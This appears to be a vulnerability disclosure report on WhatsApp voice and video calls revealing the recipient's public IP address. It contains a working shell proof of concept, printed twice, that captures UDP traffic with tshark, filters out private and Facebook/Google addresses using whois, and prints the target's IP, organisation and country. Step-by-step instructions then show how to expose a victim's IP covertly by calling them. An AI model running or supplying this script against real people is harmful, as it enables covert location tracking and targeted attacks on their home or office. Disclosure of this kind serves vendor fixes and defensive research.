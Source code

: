 # Title

Leak the IP address of target whatsapp user


# Description/Impact

## Complete Details

Latest version of whatsapp application on all platforms is vulnerable to remote whatsapp user public IP disclosure.

It is observed that during a whatsapp (voice / video) call, application on caller side tries to establish a direct connection with the public IP address of recipient device. By filtering the Facebook and WhatsApp server IP addresses from the destination hosts, it is possible to reveal the correct public IP address of the target whatsapp user without his knowledge.

Following is a quick script to exploit this vulnerability,

--------------------------

#!/bin/sh

filter=`tshark -i eth0 -T fields -f "udp" -e ip.dst -Y "ip.dst!=192.168.0.0/16 and ip.dst!=10.0.0.0/8 and ip.dst!=172.16.0.0/12" -c 100 |sort -u |xargs|sed "s/ / and ip.dst!=/g" |sed "s/^/ip.dst!=/g"`

echo "Press Enter and call your target."

read line

tshark -i eth0 -l -T fields -f "udp" -e ip.dst -Y "$filter" -Y "ip.dst!=192.168.0.0/16 and ip.dst!=10.0.0.0/8 and ip.dst!=172.16.0.0/12" | while read line
do
whois $line > /tmp/b

filter=`cat /tmp/b |xargs| egrep -iv "facebook|google"|wc -l`

if [ "$filter" -gt 0 ] ; then
targetinfo=`cat /tmp/b| egrep -iw "OrgName:|NetName:|Country:"`
echo $line --- $targetinfo
fi
done


--------------------------

## Impact


Possibility to map whatsapp users with their public IP will not just reveal whatsapp users' location information but can also be misused to track their physical movement by maintaining location history. Such direct mapping between user to IP information can also be misused to track users' surfing habits and to influence him.

Further, the public IP could be exploited to launch targeted attacks towards whatsapp user home or office.

# Repro Steps

## Setup

Users: UserA is has whatsapp detail of UserB

Environment: n/a

Browser: n/a

App version: <=latest version of whatsapp application on any platform

OS: All platforms except web

Description: UserA makes a whatsapp call to UserB and captures his public IP information without UserB's knowledge. Video PoC for better understanding of steps: 



## Steps

Step 1: Start WiFi hotspot on attacker machine and connect attacker phone to attacker SSID

Step 2: Start the PoC script (below) on attacker machine which is now acting as a router for attacker phone


--------------------------

#!/bin/sh

filter=`tshark -i eth0 -T fields -f "udp" -e ip.dst -Y "ip.dst!=192.168.0.0/16 and ip.dst!=10.0.0.0/8 and ip.dst!=172.16.0.0/12" -c 100 |sort -u |xargs|sed "s/ / and ip.dst!=/g" |sed "s/^/ip.dst!=/g"`

echo "Press Enter and call your target."

read line

tshark -i eth0 -l -T fields -f "udp" -e ip.dst -Y "$filter" -Y "ip.dst!=192.168.0.0/16 and ip.dst!=10.0.0.0/8 and ip.dst!=172.16.0.0/12" | while read line
do
whois $line > /tmp/b

filter=`cat /tmp/b |xargs| egrep -iv "facebook|google"|wc -l`

if [ "$filter" -gt 0 ] ; then
targetinfo=`cat /tmp/b| egrep -iw "OrgName:|NetName:|Country:"`
echo $line --- $targetinfo
fi
done


--------------------------


Step 3: Call any whatsapp user randomly to capture the server IP addresses to filter

Step 4: Call victim on his whatsapp

Step 5: Disconnect the call once established

Step 6: Script will reveal the public IP address of the target

Step 7: Validate the public IP address on target phone

